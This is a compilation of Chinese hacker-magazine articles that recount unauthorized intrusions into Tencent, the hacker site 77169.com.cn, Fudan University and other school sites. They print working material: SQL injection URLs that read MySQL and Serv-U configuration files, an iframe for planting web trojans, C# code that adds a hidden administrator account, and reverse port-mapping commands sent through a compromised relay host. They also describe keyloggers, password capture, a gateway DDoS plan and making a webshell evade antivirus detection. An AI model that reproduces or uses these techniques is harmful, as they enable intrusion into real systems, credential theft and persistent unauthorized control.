提交和获取的 webshell 如图4、图5。嘉缘这套系统在安全方面较以前的 2.15 版本可以说是有了很大的提高，不过还是由于程序员的小小疏忽造成了注入漏洞的形成！如果朋友们喜欢挖掘的话还可以继续深入！


兴趣的话可以来论坛坛子中找我，我的 ID 是 Cool_wXd。

> **编辑点评：** 文章分析了嘉缘人才系统的一个注射漏洞及其后台 webshell 的获取，大家按照思路理一遍应该就明白了，有兴趣的朋友请继续深入挖掘。

## 仅仅是 XSS？——腾讯的一个 XSS

从本文可以学到：

腾讯的一个 XSS 漏洞分析

天天上网实在是没意思。本人又是单身，没人愿意陪我，只好看看书，在群里刷下屏了。

刷得正尽兴的时候，QQ 又弹新闻了。既然无聊，就点开看看吧（http://edu.qq.com/zt/2007/08eny/index.shtml），如图1。

看到下面的那个“请输入你的姓名”，我手习惯性地开始不安分了。先输入经典的跨站测试代码：

```html
<script>alert('xss');</script>
```

提交之后居然没弹出什么东西……难道是被过滤了？我既然提交了“xss”这几个字符，应该在网页的源代码里有显示的。找了下网页的源代码，居然没发现“xss”这几个字符。

貌似确实是被过滤了。那好，不提交 HTML 字符了，我只提交 EVILGUY，效果如图2所示。显示是正常的，但是网页的源代码里仍然没有我正常提交的“EVILGUY”，看样子客户端提交的内容被加密了。而且根据客户端接收到的 HTML 代码来看，解密的过程是在客户端完成的。

肯定是用到了 JavaScript 脚本了。难道跨不了啦？NO！否则也就没有这篇文章了，当时被这个加密弄得有点懵懂了，索性直接写入挂马常用的 iframe 语句。

```html
<iframe src="http://blog.evilguy.cn/default.asp"></iframe>
```

src 的值就是我们要挂的马的 URL，这里我是放的我自己的 blog，提交之后，出现了我所期待的画面，如图3。

图3中的“蓝管~崔莹”是我 blog 的标题……这也就意味着跨站测试成功了。


利用我刚才发的 iframe 代码，不仅可以挂上一个网站，如果把它的长宽都设为 0 挂上网马的话，然后把地址发给别人，对方的机器如果没打上补丁，一旦打开该地址就会中网马。

漏洞测试到这里也就差不多了，但是我想起了刚才的那个在客户端加解密用的 JavaScript。在 HTML 源代码里搜索 function，没有找到被定义的 function。也许是用 js 文件进行的解密吧。又仔细看了一次 HTML 代码，发现了好几个 js 文件，但是下过来看了之后都跟输入框中输入的内容无关。

整个页面的代码快看完了，终于发现了这么一串 js 调用：

```html
<script src="/js/07newyear5.js"></script>
```

“/”是网站的根目录，拼起来就是 http://edu.qq.com/js/07newyear5.js 。下过来打开一看，定义了一个 function，是对 HTML 页面里的“myname”进行处理的。部分代码如下。

```javascript
function gets(){
    var str=code($('myName').value);
    if (($('myName').value=='！你的名字！') || ($('myName').value=='')){
        $('myName').value='！你的名字！';
        $('myName').style.color='red';
        return false;
    }
    var path=window.location.protocol+'//'+window.location.hostname+'/zt/2007/Q8ny/index.shtml?s='+str;
    window.location.reload(path);
}
```

再看看该页面是如何定义用户输入姓名的输入框的：

```html
<input id=myName onmouseover="if(this.value=='请输入你的名字')this.value='';this.style.color='#000';" style="HEIGHT: 18px; line-height:18px" value='请输入你的姓名' name='Input2'>
```

呵呵，输入姓名的字段的 id 为 myName；前面那个 gets() 正好就是对这个 myName 进行处理的。这不就是处理客户端输入的“姓名”的函数么？

下面还有两个函数，分别是 code() 和 uncode()，根据字面意思，应该就是加/解密客户端提交的“姓名”的。限于篇幅，就不贴出代码了。js 文件可以直接从腾讯网站上下载（http://edu.qq.com/js/07newyear5.js），有兴趣的可以自己去研究下具体的加/解密算法。

> **编辑点评：**
>
> 作者无意中发现了腾讯的一个 XSS 漏洞，虽然有些许偶然性，但是看到作者说的一句“我手才惯性地开始不安分了”，小编不由得笑了。


> **西线无战事** 雪小天友情提醒：
>
> LCX 又一次病倒了，本期西线由本小编代为整理和编辑。如有纰漏，还请各位海涵。
>
> 提醒大家，各位黑友在玩电脑的时候有个节制，千万别一天到晚都趴在电脑前，不但不健康不说，也会使得自己与外界产生隔阂，产生心理问题。
>
> 新年啦，注意锻炼身体，别像 LCX 一样，老生病。

## 陷落华夏黑客联盟

图 奸笑 Hacker

- 1. 渗透华夏黑客联盟
- 2. 扩大战果

今天炒了老板鱿鱼，心情有点郁闷，所以想看点资料，平静下心。无意间来到华夏，好像华夏很火了，呵呵！自从做程序员以后，已经很多年不做坏事了，今天突然有点兴致搞一下！主站研究半天没什么好利用的，华夏是黑客网站，安全意识还是挺高的，查看源代码的时候，无意间看到这样一段代码，如图1。华夏竟然换做起了虚拟主机，先汗一个！今天我们就来看看它的安全性如何，打开 http://www.77169.com.cn 后看到了一个简洁的系统，凭直觉不是他们写的系统，系统漏洞就不看了，一般情况下没可能的，还是从 Web 下手吧。于是抬出自己写的小工具，轮番轰炸；我的程序分析到一个有趣的东东！如下图2所示。

打开程序找到的 URL，如图3。

那么容易就找到后台？？别是管理员弄来玩我的吧，记得有一次，找到个后台，账号密码明明正确的，却进不去，搞了半天才在它的 HTML 代码里发现是假的，直接通过 js 判断不为空后显示账号密码错误对话框，那个心情啊，哇凉哇凉的，小菜们要多多注意细节。

废话不多说了，既然程序名字都有了，百度一下，在中国站长站下了一套一样版本的源代码回来（别问我怎么判断的，如果实在不会，就文件对比吧，升级的程序一般和原来的版本文件名之类的都会不同，除非管理页 BT 到大部分文件改名，一般情况下没问题），程序版本应该是硕美网站管理系统 SomiCMS 企业版 v3.1（PHP 写的），懒得搭环境，直接看代码了，不看不知道，一看吓一跳，NND，漏洞还不是一般的多啊，虽然大部分文件都被 Zend 加密过了，但是还是找到了太多的漏洞，基本上，参数没有过滤，PHP 注入的细节性的东西我就不讲了，大家不知道的百度一下，学会善用搜索引擎。先前程序扫到的注射漏洞我还以为是误报呢，毕竟自己随便写的，谁知道还真有……

因为我没装环境，所以只好手工测试了。因为基本上所有使用参数的地方都没过滤，我也就不费心去找了，随便找个有参数的页面，http://www.77169.com.cn/case.php?cid=2'，加个引号，果然，可惜的是没有爆出 Web 路径，不然直接 load_file 了。常规点，猜字段吧，http://www.77169.com.cn/case.php?cid=2%20and%201=2%20order%20by%208/*

一猜就中，页面正常，继续：

```text
http://www.77169.com.cn/case.php?cid=2/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,6,7,8/*
```

OK，正常，看来我和这个程序还不是一般的好啊，如图4。到现在才想起这个程序支持自定义文字字段前缀，又懒得装环境，所以用 load_file 看下有什么别的可以利用的吧，首选文件 my.ini，呵呵！因为是 PHP 的，所以数据库 80% 左右是 MySQL，这个文件是 MySQL 的配置文件，保存的是明文密码。详细介绍还是言归正传，系统目录如果没有改的话，一般情况下是 c:\windows，把 c:\windows\my.ini 编码一下，在字段5处显示，因为我看过源代码，此字段处足够显示一般文件内容了，虽然没抱多大希望，可还是看看吧，提交 URL：

```text
http://www.77169.com.cn/case.php?cid=2/**/and/**/1=2/**/union/**/select/**/1,2,3,4,load_file(char(99,58,92,119,105,110,100,111,119,115,92,109,121,46,105,110,105)),6,7,8/*
```


有内容，不过十有八九是假的，这些提权招数都是网上用烂了的，我不信华夏的管理员会白痴到这个地步。试着用牛族的 MYSQL 连接一个试试，如图6。果然不行（3306 已经开启，没有防火墙，telnet 上去返回信息不像假的），这些都是事先探测过的。看下 FTP 吧，如图7。


Serv-U 倒是确定了，版本肯定修改过，这些都是大网站管理员惯用的招数。既然读到的 MySQL 设置没有多少利用价值，那就看下 FTP 吧，Serv-U 默认路径，c:\program files\serv-u\ServUDaemon.ini，转换一下，再次提交：

```text
http://www.77169.com.cn/case.php?cid=2/**/and/**/1=2/**/union/**/select/**/1,2,3,4,load_file(char(99,58,92,112,114,111,103,114,97,109,32,102,105,108,101,115,92,115,101,114,118,45,117,92,83,101,114,118,85,68,97,101,109,111,110,46,105,110,105)),6,7,8/*
```

内容出来了，不像是假的，如图8，整整一屏的数据呢，太多了，看来他们生意不错……

看到一个叫 upload 的用户，他的目录不同于其他的，名字也挺奇怪的，社工下这个用户吧，暴破那种事，除非必要，我是绝对不干那事的。2 分钟后，我猜到了密码，upload123456，如图9。

汗一把，竟然是根目录，而且貌似不只一个站，这次好玩了，留个 Shell 吧！如图10。


接下来扩大战果吧，web Shell 能干好多事，包括写启动项、查看文件、修改、删除。可惜的是不能运行 net.exe、net1.exe 以及其他的任何可执行程序，只能 ipconfig 和几个无关紧要的命令，cacls d: /E /T /G everyone:F>f:\77169.com.cn\web\1.txt 没用，估计是禁止了 System 组用户的所有权限，只允许 Administrators 组才能访问。

不明白他们为什么那么那么麻烦，直接把 PHP 权限降了不就完了？没办法了，写启动项吧，放木马不好，服务器装了赛门铁克和 360，反正他开了 3389，扣个用户吧！2003 的系统默认支持 asp.net 1.1，顺手拿 VS2003 写个增加用户的小程序吧，关键代码如图11。代码很简单了，不明白的查 MSDN，记得引用 System.DirectoryServices;，为了防止他设置了密码策略，所以密码我设置成了 Huanglin.52020，生成后把程序放到启动目录，如图12。


```csharp
private static void AddUser()
{
    try
    {
        DirectoryEntry Aduser = new DirectoryEntry("WinNT://" + Environment.MachineName, "capple");
        DirectoryEntry NewUser = Ad.Children.Add("huanglin_52020", "user");
        NewUser.Invoke("SetPassword", new object[] { "huanglin_52020" });
        NewUser.Invoke("Put", new object[] { "Description", "ST,IT Machine Account" });
        NewUser.CommitChanges();
        DirectoryEntry ry;
        ry = Aduser.Children.Find("Administrators", "group");
        if (ry != null)
        {
            Console.WriteLine(ry.Invoke("Add", new object[] { NewUser.Path.ToString() }));
            Console.WriteLine("Account Created Successfully");
        }
    }
    catch (Exception ex)
    {
        Console.WriteLine(ex.Message);
        Console.ReadLine();
    }
}
```

名字起得挺恶心，嘿嘿！接下来的事情就等着鱼儿上钩了，只要有用户登录就会运行我们增加的用户程序了，两日后，登录成功！至此，提权结束，如图13。

当然，我的目标并不想止于此，最大限度地利用手中的资源，我们可以干的事情还很多，比如，记录用户登录密码。很多人把多种密码设置成一样，这种习惯是不好的，比如我们今天遇到的华夏管理站就有这个瑕疵，装个记录用户密码的工具吧，就用 goldsun 的 NtPass.dll，免杀一下传上去，安装成功后又是漫长的等待，如图14。


## 后记

几天后通过 WebShell 查看到了密码，刷刷的一屏，然后社工下别的服务器，其他的不方便截屏。由于篇幅限制，也不好写得太多，不过到最后，我可以告诉大家的是，通过社工、ARP、其他程序漏洞我一共拿到了华夏包括虚拟主机服务器等等在内的 6 个服务器，好了，就到此为止吧。

（文中使用的增加用户小程序的代码已经收录在光盘中。）

**编辑点评：**

华夏的名气是够大了，但是这样的低级错误都还存在，所谓百密难免一疏；那么其他类似的黑客类网站是否也有类似的低级漏洞呢，有时间的朋友再测下。


## 对复旦大学的一次漫长渗透

武汉工程大学·江金涛 / 冷焰

- 从本文可以学到：
- 一般大型系统的渗透技巧和过程
- 目标：www.fudan.edu.cn
- IP：61.129.42.5
- Port：21、80、22、3306、4444、4662、8009、8080
- Web：Sun Unix

以上是对目标信息进行的搜集，开了 22 端口，管理员可能是用 SSH 来管理主站。上次 hackest 检测的时候，就是拿下了 C 段的一台 Windows 主机，从而对目标主机嗅探得到 FTP 密码，这次我的目的不仅仅是主站，而是复旦大学的整个网络。

## 1. 初战告捷

思路：因为像复旦大学这样的内网，在路由器上肯定设置了很严格的外网访问规则，想扫弱口令？根本不可能（后来事实也证明了我的猜测，2 级域名 ping 下去都是一个 IP，看来是在路由那里做了端口的设置）。通过脚本漏洞拿下内网的一台机器，摸清里面的结构再说吧。

结果：很轻易地拿下了一台内网机器，内网 IP：10.107.0.12（Windows 2000），如图 1，并且成功抓取到了管理员密码（因为这个权限中途丢失，就没用；哦，晕了）。

方法：分站越多，安全越难兼顾，拿出域名查询助手，查了下其 C 段的域名，一个个分站地检测，不知不觉中就发现了突破口：一个分站的论坛回复的时候可以直接上传 jsp 附件，估计是学生写的吧，要不怎么会让 jsp 文件都可以上传。很轻易地得到了一个 jsp 的 webshell，呵呵，jsp 权限很大的哦，接下来自然是通过数王在邪八发布的那个端口转发工具杀进内网。（具体用法我在上期的对华中科技大学的渗透中讲过了，要多多关注黑手客）


总结：现在对于大型的站点，asp 的类型越发少了，所以大家也不要拿起注入工具，对着目标一阵乱扫，理清思路，多在上传上想办法。上传可能能够直接拿到 webshell 的，还有用 Google 搜索一些关键字，对于学校站点还是很有效的。

## 2. 内网群侦

思路：身在内网，可以摸索到外网无法收集到的信息，扫描一溢出、一嗅探，拿手好戏当然是社工。

结果：拿下 10.107.0.36、10.107.0.21、10.107.0.59 三台机器（均为 Windows 2003）以及若干信息。

方法：扫描出 sa 弱口令，拿下机器 10.107.0.36，如图 2；53 端口的 DNS 溢出，拿下机器 10.107.0.21；通过 Cain 的嗅探，得到一个 FTP 弱口令，账号为：administrator，密码为 xxxx，社工 3389，成功进入，拿下机器 10.107.0.59，如图 3。


总结：了解了拓扑结构，以及外网的网址、内网的信息，对于之后的渗透都起到了很重要的作用。每个系都是独立一台服务器，所以说密码社工的概率变小了，不过没关系，他们的意识都不强。

## 3. 中流夭折

结果：在 10.107.0.12 上挂着 xscan 让它扫，睡一觉起来，服务器连不上，jsp 木马显示连接不上。

总结：内网扫描的确存在很大的危险性，而且我这里是端口转向进内网，稳定性还有待考证。最重要的一点是，不应该在突破口这台机器上进行过多行动。现在突破口的机器没了，那么我内网拿下的机器，以及搜集到的信息也没有任何作用了。

## 4. 越堑蓝穹

思路：没有那么容易放弃的，继续想办法杀进内网，看来还是要从脚本入手了。这里我想到了 jsp 站点的 Tomcat 安全性会不会存在问题。

结果：再次成功杀进内网，拿下机器 10.107.0.44，如图 4、图 5，均为 Windows 2003，以及 10.67.1.1 的 webshell，如图 6。

方法：Google 搜索 inurl:fudan.edu.cn jsp，在搜索到的站点后加入 /manager/html，弹出登录框，输入账号 admin，密码空，成功进入。得到 webshell 的方法是在 Tomcat 里的上传里上传 .war 结尾的文件，这个文件里面包含了 jsp 马，具体的可以参看黑手 08 第一期小鱼写的文章。这个方法直接得到了系统权限，要知道 jsp 配置不好，脚本的漏洞可以直接导致系统权限的沦陷。

10.67.1.1 的 webshell 是通过 SQL 注入得到，猜解出管理员账号密码，进入后台，上传的地方不准许上传 asp 文件，没关系，在上传文件后面加入一个空格即可突破。asp 的 webshell 可是没有 jsp 的大哦，不过基本没设置权限，默认安装的，替换了服务，就等他重启。

总结：管理员的疏忽让我重新进入内网，很多管理员不熟悉 Tomcat，基本默认安装。jsp 的安全是一个值得注意的问题，不为别的，有了 jsp 马，我都不用放后门了。


## 5. 内网遨游

思路：仿佛回到了第一次进入其内部的思想，不过这次比上次的思路肯定要精准点些。现在我们得到的机器分别为 10.107.0.xxx 段的 12、41、36、44 以及 10.61.18.40 和 10.67.1.1，跨度为 3 个段，挂起 Cain 嗅探，应该会有不小的收获吧。现在的思路很明确，内网大的话往往没有方向感，这时我想到了，在 10.107.0.xxx 段拿下一域服务器的话，那么在这个区域我就可以肆行无忌了。


结果：拿下了域服务器，上面安装了键盘记录，如图 7。

方法：用 s.exe 扫描 53 端口，一般域服务器才会开 53 端口，得到结果为 10.107.0.29、10.107.0.141 为域服务器，DNS 溢出，成功进入，安装了键盘记录，就等管理员上线了。

## 6. 领土扩展

思路：10.107.0.xxx 段基本搞定，继续扩大成果就要用到社会工程学喽，从密码和人方面社工。

结果：通过 FlashFXP 拿下了内网不少机器，如图 8，可是主站没有继续下去，因为始终是非授权的。

方法：虽然没有继续下去，不过我整理了下思路，如下：

- 1. 选择在 10.61.18.40 上进行远程连接其他机器，虽然速度上会慢点，但是在日志文件里面就不会留下我的外网 IP。
- 2. 小泽老师说要拿到拓扑结构，因为你不知道复旦的主站是内网的哪个 IP，有可能是主站和分站是不同的集群，又有可能是相同的，太多可能了，拿到拓扑才可以了解清楚。怎么拿到拓扑呢？先得拿下一台网关服务器再说，因为这里的网关是路由，我们拿下了就可以知道它给 IP 做的是怎么样的策略了。方法是，107 段拿下了很多机器，一台不停地 DDOS 网关，一台不停地嗅探，网关挂了，必然重启，这时就可以嗅到网关的密码，之后拿到路由的策略就知道主站在哪个 IP 上，从而对其进行嗅探，如图 9。
- 3. 从社工的角度来获取权限，第一次进入的时候，我给管理员发过邮件提示过，管理员跟我有一定的交流。从他的话中我知道了，分站是系里托管的机房，证明了主站跟分站不是一个集群，我得到了他的信任，如图 10。
- 4. 那么我在邮件的 doc 上捆马会是怎么样的结果呢？拿到一台网管机同样可以达到拿到拓扑的目的，后面的方法就跟 2 是一样的。


## 7. 总结

安全检测就此结束，我在这次实验里面学习到了很多东西。一路下来，我的思路很明确，玩渗透玩的不就是思路么，希望可以是有授权的检测，毕竟没拿下主站，有些遗憾。

> **编辑点评：** 很多大型的系统都是在交换机、路由器上做的端口映射和转发，其实真实的服务器都是在内网机器上的。这个时候，需要通过 Web 漏洞突破一台内网机器；而后可以通过取得某交换机的管理页面（映射维护页面）找到其端口和内外 IP 映射表，再有针对性地对目标主机进一步分析。

## 对某某大学的一次意外渗透

武汉工程大学 江金涛 / 冷焰

- 从本文可以学到：
- Paris 的使用
- Tomcat 的利用

某某大学在国内算是比较有名的大学，本着敬仰的心态友情测试了下他们的网络安全，结果让人很失望。

## 一、用 Google 查找信息，得到 webshell

学校网站的特点是分站多，统一管理难，所以程序的漏洞相对是比较多了，用 Google 就可以帮助我们找到很多有用的信息。常用的命令是：inurl:xxx.edu.cn，后面的关键字可以是 manager、admin、管理登录、dvbbs 等等，靠大家自己发挥了。不一会儿就得到了一个有用的信息，如图 1。


Dvbbs 6.0，汗一个先，古老级别的论坛。本来满心欢喜地看默认账号密码、默认数据库，可是都不可以，心都灰了，就抱着最后的希望看看这有上传的漏洞，明明小子扫了下，结果如图 2。


可惜上传失败，我就打开这个页面看看，打开自动跳转到 http://psy.xxx.edu.cn/upload/login.asp，如图 3 所示。


账号密码明文，我昏，人品大爆发了，进去看看可不可以利用，原来是一个上传文件的管理后台，如图 4。


禁止上传 asp、aspx、mp3 文件，但是没有禁止同样可以被 asp.dll 解析的 asa、cer 文件。修改下 asp 木马为 asa，直接上传成功，得到 webshell，如图 5。


## 二、通过 Tomcat 提权

现在 webshell 的环境是：

- 1. guest 权限（通过 nc 反弹回来的 shell 继承了 webshell 里面的 guest 权限）
- 2. 安装了 Serv-U，但是文件设置了权限，管理员把配置文件单独存在 F 盘的一个叫“重要文件”的文档中。
- 3. 安装了 MySQL、MSSQL。找到了 my.ini 文件，但是在这台服务器并存的网站里面没有找到具有 sa 权限的 MSSQL 的账号。
- 4. 安装了 Tomcat。

现在的思路很明确，我知道的就有 2 种方法可以提权：一是利用 MySQL 通过 Mix.dll、My_udf.dll 进行提权；二是通过 Tomcat 进行提权。这个的前提是 Tomcat 以最高权限运行。找到了一个 jsp 的分站，传了个 jsp 马上去，发现是以 system 权限来运行的，如图 6。

剩下的就很简单了，用 jsp 马新建了一个管理员账号，准备登录 3389 时，发现登录不上。可是 asa 的马明显表明打开了终端了呀，难道是限制了外网？

现在把 msxidc.exe 上传到服务器上，然后把 mapserver.exe 上传到具有公网 IP 的肉鸡上，如图 7 所示。


这个是通过后门来执行的，当然你也可以在 webshell 里面运行，或者用 nc 反弹回来一个 shell，如图 8。


## 三、通过 Paris 进行端口映射

想到端口映射，大家都会想到 LCX，对吧，我也是一样。但是 LCX 我试了很多次都不能成功把 3389 端口映射到公网 IP 的肉鸡上面，然后换 htran 也是这样的。

最后我想到了教主在邪八发布的那个可以建立 VPN 的工具——Paris。它可以把外网的端口映射出来，而且可以把自己加入对方的内网，功能很强大的，目前主要有下面的功能：

- 1. 入侵内网时，在能占领的出口或代理主机上运行 softrouter，外网 softrouter server 可以关联内网主机，这样在外网就能很方便地控制内网主机。
- 2. 如果内网有一些有特殊应用服务的主机，但是不能通过公司的路由器配置映射到外网的，这里可以通过这个软件把相应端口映射到外网，这样外网就可以使用内网上某些资源，比如 Web 站点。

具体来说端口映射的方法是这样的：

利用软件路由 msxidc 软件来反弹内网端口，下面的例子是通过肉机上 210.51.XX.XX 的 82 来访问目标机的 3389 端口。

```text
肉机 210.51.XX.XX mapserver -p22
目标机 msxidc -l127.0.0.1 -p3389 -m82 -s210.51.XX.XX -r22
// 然后连接 210.51.XX.XX 的 82 端口
软件包括 4 个文件：mapserver.exe、msxidc.exe、vVXDc.dll、gateproxy.exe
```

现在我通过 webshell 把 msxidc.exe、vVXDc.dll 上传到服务器上，现在连接肉鸡 IP 的 82 端口就可以进入 3389 了。可是因为管理员没有注销，导致远程登录人数过多，没登录成功。在运行里面输入：mstsc /console /v:61.187.10.76:82，就可以踢下一个用户，现在就能完美登录 3389，如图 9。


本来是准备继续渗透的，可是网速确实不敢恭维，去了一趟某某大学，网速还是一样。大概了解了下拓扑结构，里面有 Linux 在跑溢出，有不少机器开了 52 端口，还可以从社工密码的角度来渗透，懒得继续下去了，就到此结束。

## 后记

之所以要写这篇文章，是因为 Paris 的端口映射功能确实强大，当 LCX 不能成功的时候试试，或许会有突破。

（文中使用到的 Paris 已经收录在光盘中。）

## 编辑点评

Paris 确实很强大，在内网渗透的时候相当不错。

## 记一次对母校网站的入侵检测

□ 晓年[岁月联盟]

从本文可以学到：
渗透技巧和思路

时间过得真快，转眼高三就快结束咯。高中贪玩，啥也没学到，天天陪伴我的是网络，我相信很多玩黑的朋友都是这样度过这痛苦的高中生涯的吧。马上就要离开这地狱咯，不能带走什么，总可以留下点什么吧！

在同学的邀请下又对母校进行一次安检，算是报答对她的教育之恩吧。之前同学也尝试过入侵，每次都以失败告终。看来安全性还是可以嘛。

主站是个文章系统和简单的校友录构成，很简单。我们先来看看主站是否存在常规漏洞吧。提交 `http://www.xx.com/inc/conn.asp` 爆出网站数据库地址，如图 1。


立即下载数据库，用辅臣数据库浏览器打开，结果发现没有管理表。出师不顺，接着在网址的后面加个“/”试试，正常返回主页，没有遍历目录漏洞。再找一下有没有常规的上传漏洞页面，打开 Domain 3.5 选址网站批量检测载入我们要检测的地址，结果跑出来的结果不尽如意。只探测到一个 `admin_upfile.asp` 页面，用 IE 载入没有显示任何信息。

但是我不甘心，又猜咯 N 次，皇天不负有心人，猜到一个名为 `admin_uplod.asp` 的网站文件上传的页面。点击浏览上传一个 ASP 木马，点击上传提示说：“只允许上传：gif|jpg|doc|swf|rar|zip|xls 文件类型【重新上传】”。换成 `cer`、`asa`、`aspx`、`php`、`htm` 的扩展名也无法上传，于是载入 Domain 的综合上传，所有的类型都尝试了一遍，但通通失败了。接下来，用 WsockExpert 抓包上传也不行。根据返回的数据我们知道此站是用化境 ASP 无组件上传来实现文件上传的。


暂时没有发现可以利用的，只有先放下。另外如图 2 返回 IIS 6.0，说明目标站点的服务器是 Win2003 的版本，毕竟 IIS 6.0 是运行在 2003 系统上嘛。

接着测试，在网站上找了个标准的 asp 的注入页面，提交单引号，马上弹出一个对话框：参数错误，请返回。`and 1=1` 和 `and 1=2` 结果都一样，找了好几个页面都那样结果。得出结论：网站加了防注射代码。

还有个校友录还没看呢？大概看了下，是款很简单的程序，上面有很多同学的照片，那么意味着可以上传图片了。很兴奋地注册了个账号登录，点击班级照片上传，提示你未加入班级，请加入班级后再上传。马上找了一个班级加上，点击上传图片，选择一款 asp 木马上传，没有任何提示。显示了空白的图片，赶快右键属性，结果没有发现木马的真实地址，再次上传木马并且用 WsockExpert 抓包，希望能抓到真实地址。结果很惨淡，运用网络嗅探器抓包也如此。

再看看这校友录是否存在注射漏洞吧。经过我的仔细探测发现了一个注射点，通过工具猜解得到管理员密码，在 `www.cmd5.com` 成功破解出明文的密码，兴奋地登录进了后台，点击后台管理提示无法找到。上天再次给我开了一个玩笑。

通过猜解找到后台，在登录页面那没有发现其版权信息，在主站下面的版权信息也被改得面目全非。通过对网页文件关键字的定位，在百度上搜索也是提示无法找到。在后台的输入框和主站的搜索页面测试看有没有搜索型注射漏洞，结果充分说明此站安全还是可以的。至此入侵陷入了僵局，一般的朋友可能都放弃了。放弃不是我们的作风，要发扬黑客精神，继续渗透。

通过 ping `www.xx.com` 得到 IP，在 `www.ip138.com` 查询得到的信息：重庆市电信 IDC 机房（五星机房），服务器并不在我们本地，应该是使用的虚拟主机。用 Domain 的旁注查询得到的信息很少，这里我用“比明小子”和“啊D强的旁注查询工具”这工具来查，它查询的东西毕竟多，如图 3。


那么多的站不会都那么变态吧，随便找了个站，通过尝试，破解密码、登录后台、上传木马、备份，成功拿到一个 webshell，详细入侵过程就不再废话了，如图 4。


剩下的工作就是提升权限了，我们的目的是拿下母校网站的最高控制权限。为了方便渗透，我马上上传了一款功能齐全的木马，先查看下系统支持的组件：`Scripting.FileSystemObject`、`WScript.Shell` 支持。

输入我们开始爆库漏洞得到的母校网站的路径，提示你无权访问。由于是 2003 系统，ASPX 的文件默认也被解析的（aspx 的木马比 asp 的权限更高），赶快上传一个免杀的，输入相同的路径仍然提示无权访问，在 PHP 马中也是如此。看来管理做了权限设置。

C 盘、D 盘可以访问，输入 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 提示没有找到，看来没有安装 pcAnywhere。`C:\Program Files` 目录下也没有看到 Serv-U 的踪迹。

上传 `cmd.exe` 到 `C:\Documents and Settings\All Users\Documents\`，执行 `netstat -an` 没有发现 43958 端口，继续执行 `net start` 也没有发现 Serv-U 的服务，再次确定没有使用 Serv-U 等常套软件管理网站。经过仔细查找，该系统是使用系统自带的 FTP 管理工具实现文件的上传的；利用 ASPX 木马往启动项里写文件也失败。

提权陷入困境，于是疯狂地在可以访问的目录里翻阅，希望能得到点有用的信息。在翻开 D 盘的时候发现了一个 homebak 的目录，先打开再说，总共有上百个网站目录备份，那我们母校的备份目录也在里面咯。输入母校的域名，网站目录文件全暴露在面前。查看根目录下，`conn.asp` 文件得到数据库的路径，咋和爆库出的文件不是一个呢？先不管它了，下载来再说。很顺利地破解出密码，直接登录后台。看了一下没有数据库备份的功能，后台只能添加文章和图片，上传的地方过滤得很严格，无法利用。

通过插一句话木马到数据库中，可惜数据库的扩展名为 MDB，还无法利用。于是又在该目录中继续翻，在一个隐藏的目录 njezxg 发现了一个 BBS 整站，一看这不是传说中的动网吗？

赶紧访问，发现版本是 7.0，看来是废弃多年的报废品了。目录那么隐蔽，怪不得我用 Google 和 Baidu 都没有搜索到。Upfile.asp 是以前疯狂一时的拿 WebShell 的最快方法，输入该路径显示：“请选择你要上传的文件[重新上传]”，漏洞文件的确存在，如图5。


打开老兵大哥哥写的 DVBBS 上传利用程序，填写相关信息，提交的地址写漏洞文件的路径，上传路径随意写，本地选一款免杀的木马，无需剪包直接点击上传，显示上传成功。如图6。


利用得到的小马，我们可以写个大点的、功能强悍点的木马进去，至此母校校园网站系统安全防线彻底沦陷，我已经成功完成任务，如图7。

此次入侵检测并没有用到什么高深的技术，入侵的时候注意灵活转换思路，要有耐心，贵在坚持，永不放弃。如果你对本文有什么疑问，可以到非安全官方论坛或者岁月联盟找我交流，谢谢。在这里小弟提前祝大家新年快乐。

（文中用到的工具已经收录在光盘中。）


> 编辑点评：
> 拿到一个 WebShell 不能算其“安全防线彻底沦陷”吧，需要走的路还很长。

## 十二 WebShell全免杀终结版的后门及免杀

## 一、前言

以前拿站老用十三的大马，可怜的我被菜鸟骗了，没想到大站放出来的东西也会有后门（具体是哪个就不说了）。说实话，这个最终版功能还算是比较全的，近来马儿不免杀了，硬着头皮我这个老小菜也只好自力更生了。

### 二、挖掘后门的过程

打开大马，明眼人一看就知道是 `<%@ LANGUAGE = VBScript.Encode %>`，是用这个函数加密的，用工具 AspDec.exe 作一下简单解密，如图1、图2。


怎样来找它的后门呢？当然是一段段地看代码，说起来简单做起来难。首先我找到这么一段代码：

```vb
Function MainForm()
mytime=date
nowtime="2007-4-30"
if(datediff("y",mytime,nowtime)>=0) then
    m=chr(60)&chr(105)&chr(102)&chr(114)&chr(97)&chr(109)&chr(101)
    &m&m&m&mmm&mmmm
else
    m=""
end if
...
End Function
```

看名字就知道定义的是表单接收的主函数，`datediff("y",mytime,nowtime)` 函数表示两个指定日期间的时间间隔天数。那么这段 ASCII 代码是怎么回事，有必要深究一下。

```vb
m=chr(60)&chr(105)&chr(102)&chr(114)&chr(97)&chr(109)&chr(101)&m&m&m&mmm&mmmm
```

在下面我找到这三段定义：

```vb
mm=chr(32)&chr(115)&chr(114)&chr(99)&chr(61)&chr(104)...
mmm=chr(47)&chr(49)&chr(46)&chr(104)&chr(116)&chr(109)...
mmmm=chr(60)&chr(47)&chr(105)&chr(102)&chr(114)&chr(97)&chr(109)&chr(101)&chr(62)
```

将它们去头部定义，放在记事本里整理一下（简单用替换就行），工具小菜就用战狼的“个人 js 加解密功能.htm”解密页来看一下解密后的结果，如图3、图4。

就是一个简单的框架网页。删除 `mytime=date` 到 `end if` 这段以及后面的三段定义就是了。

接下来再向下看，又找到一处我看不懂的地方了。晕！看来是个自定义的函数，就没办法用工具来解了。本人就是工具小菜，没学过其他语言，构造个 ASP 用它自带的 `UnEncode()` 函数就地解决它。


```asp
<%
function UnEncode(temp)
  ...
%>
```


加点加吧，作加密可不太好，去了它。用解密后的代码将 `xu="*"` 及后面的解压函数替代就行了。

### 三、免杀过程

简单地讲个过程，找到 **Function MainMenu()**，如下就是一个选择过程：

> `RRS"<option value='?Action=DbManager'>数据库操作</option>"`，其中的 **DbManager** 是一个函数的定义过程。用二分法，一段段函数地试，发现这几段函数被杀软所杀。

```vb
Sub PageAddToMdb()
Function Course()
Sub createFolder(thePath)
Sub satTreeForMdb(thePath, rs, stream)
Function ServerInfo()
Sub unPack(thePath)
Function fsoTreeForMdb(thePath, rs, stream)
Sub addToMdb(thePath)
Function DownFile(Path)
```

我们将它们从 `Sub PageAddToMdb()` 到 `Function DownFile(Path)` 都复制出来，做个 ASP，找个加密函数将这几段代码加密。工具小菜当然用工具。


> 注意：加密前用 `<% %>` 包括，加密后去除，替代原代码，如图7、图8。


